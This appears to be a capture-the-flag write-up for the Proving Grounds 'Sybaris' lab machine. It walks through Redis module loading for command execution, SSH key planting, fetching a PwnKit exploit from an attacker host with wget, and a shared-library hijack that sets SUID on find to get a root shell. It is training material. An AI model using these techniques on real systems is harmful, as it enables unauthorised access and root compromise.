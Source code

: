 ```yaml
---
title: "Proving grounds Practice: Sybaris"
layout: post
date: 2024-06-20 02:0
categories: writeup
---
```


Proving grounds Practice - Sybaris CTF writeup.

## Nmap
```shell
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.2
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
6379/tcp open  redis   Redis key-value store 5.0.9
```

## 21/tcp   open  ftp     vsftpd 3.0.2
Anonymous login success
No directory found

## 80/tcp   open  http Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
Nothing here...

## 6379/tcp open  redis   Redis key-value store 5.0.9
Upload module.so file to the remote machine through the FTP.
Use redis-cli to import the uploaded module for command execution

```shell
naveenj@hackerspace:[21:42]~/proving_grounds/Sybaris$ redis-cli -h 192.168.209.93
192.168.209.93:6379> MODULE LOAD /var/ftp/pub/exp.so
OK
192.168.209.93:6379> system.exe "id"
(error) ERR unknown command `system.exe`, with args beginning with: `id`, 
192.168.209.93:6379> module list
1) 1) "name"
   2) "system"
   3) "ver"
   4) (integer) 1
192.168.209.93:6379> system.exec "whoami;id;hostname;uname -a"
"pablo\nuid=1000(pablo) gid=1000(pablo) groups=1000(pablo)\nsybaris\nLinux sybaris 3.10.0-1127.19.1.el7.x86_64 #1 SMP Tue Aug 25 17:23:54 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux\n"
```

- Now copy id_rsa.pub file from the local machine to remote machine via ftp.

- Run the copy command to copy /var/ftp/pub/authorized_keys to /home/pablo/.ssh/authorized_keys. Ensure the .ssh folder was created before copying the key.

- Cross check the file using the redis-cli system.exec command and ssh to the user.

## Privilege Escalation

Sudo version vulnerable to [CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034) (pwnkit).

```shell
[pablo@sybaris tmp]$ wget http://192.168.45.174/CVE-2021-4034.py -O exploit.py
--2023-10-29 22:01:50--  http://192.168.45.174/CVE-2021-4034.py
Connecting to 192.168.45.174:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3262 (3.2K) [text/x-python]
Saving to: ‘exploit.py’

100%[===================================================================================================================================================>] 3,262       --.-K/s   in 0.003s  

2023-10-29 22:01:51 (1.09 MB/s) - ‘exploit.py’ saved [3262/3262]

[pablo@sybaris tmp]$ which python
/usr/bin/python
[pablo@sybaris tmp]$ python exploit.py 
[+] Creating shared library for exploit code.
[+] Calling execve()
[root@sybaris tmp]# cd /root
[root@sybaris root]#
```

## Alternative

```shell
[pablo@sybaris ~]$ cat /etc/crontab 
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils
MAILTO=""

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
  *  *  *  *  * root       /usr/bin/log-sweeper
```

Abuse LD_LIBRARY_PATH

https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/

Exploit

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("chmod u+s /usr/bin/find");
}
```

### Compile the exploit and run

`gcc -o utils.so -shared -fPIC exploit.c`

```shell
[pablo@sybaris tmp]$ ls -al /usr/bin/find
-rwsr-sr-x. 1 root root 199304 Oct 30  2018 /usr/bin/find   #SUID bit set
[pablo@sybaris tmp]$
[pablo@sybaris tmp]$ /usr/bin/find . -exec /bin/sh -p \; -quit
```

Note after running the exploit the `SUID` bit has been set to the binry `find`.

**Root Obtained**

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).